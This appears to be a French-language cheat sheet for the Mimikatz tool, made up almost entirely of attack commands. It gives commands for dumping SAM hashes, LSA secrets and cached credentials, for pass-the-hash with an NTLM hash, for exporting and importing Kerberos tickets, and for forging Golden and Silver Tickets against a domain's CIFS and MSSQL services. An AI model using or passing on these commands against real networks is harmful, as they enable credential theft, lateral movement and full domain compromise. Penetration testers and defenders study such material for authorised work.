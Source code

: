 ### Dump hashes système
```cmd
# Dump SAM (local accounts)
lsadump::sam

# LSA secrets
lsadump::secrets

# Cache de credentials
lsadump::cache
```

## 🎯 Techniques d'Extraction Avancées

### Pass-the-Hash (PTH)
```cmd
# PTH avec hash NTLM
sekurlsa::pth /user:admin /domain:company.com /ntlm:aad3b435b51404eeaad3b435b51404ee

# PTH avec processus spécifique
sekurlsa::pth /user:admin /domain:company.com /ntlm:[HASH] /run:powershell.exe
```

### Pass-the-Ticket (PTT)
```cmd
# Export de tickets
sekurlsa::tickets /export

# Import de ticket
kerberos::ptt ticket.kirbi

# Purge des tickets
kerberos::purge
```

### Golden Ticket Attack
```cmd
# Génération Golden Ticket
kerberos::golden /user:admin /domain:company.com /sid:S-1-5-21-... /krbtgt:[HASH] /id:500

# Golden Ticket avec groupe
kerberos::golden /user:admin /domain:company.com /sid:S-1-5-21-... /krbtgt:[HASH] /groups:512,513,518,519,520
```

### Silver Ticket Attack
```cmd
# Silver Ticket pour service spécifique
kerberos::golden /user:admin /domain:company.com /sid:S-1-5-21-... /target:server.company.com /service:cifs /rc4:[HASH]

# Silver Ticket MSSQL
kerberos::golden /user:admin /domain:company.com /sid:S-1-5-21-... /target:sql.company.com /service:MSSQLSvc /rc4:[HASH]
```

